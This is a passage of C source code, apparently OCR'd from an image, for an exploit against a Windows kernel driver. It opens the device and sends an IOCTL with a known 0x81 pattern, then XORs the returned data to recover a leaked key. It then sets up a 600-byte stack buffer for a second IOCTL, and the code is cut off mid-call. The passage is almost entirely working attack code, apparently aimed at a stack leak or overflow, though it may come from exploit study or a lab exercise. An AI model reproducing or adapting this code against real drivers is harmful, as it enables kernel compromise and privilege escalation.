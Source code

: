 ```c
            if (i + j < size) {
                unsigned char c = byteData[i + j];
                if (c >= 32 && c <= 126) {
                    printf("%c", c);
                } else {
                    printf(".");
                }
            }
        }
        printf("|\n");
    }
}

int main(){

    HANDLE hDevice = CreateFileW(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[X] Failed to open device. Error: %ld\n", GetLastError());
        return 1;
    }

    printf("[!] Success open device\n");

    uintptr_t inputbuf1 = 0x8181818181818181;
    size_t KEY = 0x0;
    char outputbuf1[0x8] = { 0 };
    
    DWORD bytesReturned = 0;

    BOOL result1 = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        &inputbuf1,
        0x8,
        outputbuf1,
        0x8,
        &bytesReturned,
        NULL
    );

    if (result1) {
        printf("[*] IOCTL command sent successfully\n");
        printf("[!] LeakData: 0x%llx\n",inputbuf1);
        KEY = 0x8181818181818181 ^ inputbuf1;
        printf("[!] LeakKey: 0x%llx\n",KEY);

    } else {
        printf("Failed to send IOCTL command. Error: %ld\n", GetLastError());
    }

    char stack_value[600] = {0x81,0x81,0x81,0x81,0x81,0x81,0x81,0x81};
    char outputbuf2[600] = { 0 };

    BOOL result2 = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        stack_value,
        0x8,
        outputbuf2,
        600,
        &bytesReturned,
```